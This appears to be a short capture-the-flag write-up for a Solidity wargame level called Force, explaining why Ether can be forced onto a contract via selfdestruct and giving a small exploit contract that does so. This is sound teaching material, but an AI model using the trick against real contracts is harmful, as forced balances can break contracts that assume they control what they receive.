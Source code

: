 ### Analysis
Simple transfer or send won't work because the Force implements neither receive nor fallaback functions. Calls with any value will revert.
From the Solidity documentation:
A contract without a receive Ether function can receive Ether as a recipient of a coinbase transaction (aka miner block reward) or as a destination of a selfdestruct.A contract cannot react to such Ether transfers and thus also cannot reject them. This is a design choice of the EVM and Solidity cannot work around it.

### The Exploit
truffle script:
~~~
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract ForceWrapper{
    function selfDestruct(address payable transferAddress) external payable {
        selfdestruct(transferAddress);
    }
}
~~~